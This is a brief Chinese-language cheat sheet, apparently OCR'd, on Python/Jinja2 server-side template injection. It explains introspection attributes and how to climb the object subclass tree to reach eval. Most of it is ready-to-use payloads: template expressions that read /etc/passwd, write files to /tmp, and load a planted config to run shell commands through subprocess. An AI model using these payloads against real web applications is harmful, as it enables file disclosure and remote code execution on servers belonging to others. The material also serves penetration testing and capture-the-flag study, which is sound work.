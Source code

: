 常见的内省函数

```
__builtins__
__import__
__class__返回调用的参数类型。
__base__返回基类
__mro__允许我们在当前Python环境下追溯继承树
__subclasses__()返回子类
builtins即是引用，Python程序一旦启动，它就会在程序员所写的代码没有运行之前就已经被加载到内存中了,而对于builtins却不用导入，它在任何模块都直接可见，所以这里直接调用引用的模块
__globals__ 函数会以字典类型返回当前位置的全部全局变量
```

常见的寻找过程

```
''.__class__.__base__.__subclasses__()
# 返回子类的列表 [,,,...]
#从中随便选一个类,查看它的__init__
>>> ''.__class__.__base__.__subclasses__()[30].__init__
<slot wrapper '__init__' of 'object' objects>
# wrapper是指这些函数并没有被重载，这时他们并不是function，不具有__globals__属性

#再换几个子类，很快就能找到一个重载过__init__的类，比如
>>> ''.__class__.__base__.__subclasses__()[5].__init__

>>> ''.__class__.__base__.__subclasses__()[5].__init__.__globals__['__builtins__']['eval']
#然后用eval执行命令即可
```

安全研究员给出的常用的payload

文件读取

```
#读文件
{{().__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__['open']('/etc/passwd').read()}}  
{{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}
#写文件
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/1').write("") }}
```

任意执行

```
{{''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg','w').write('code')}} 
{{ config.from_pyfile('/tmp/owned.cfg') }}  
```

写入一次

```
{{''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg','w').write('from subprocess import check_output\n\nRUNCMD = check_output\n')}}  
{{ config.from_pyfile('/tmp/owned.cfg') }}  
{{ config['RUNCMD']('/usr/bin/id',shell=True) }} 
```
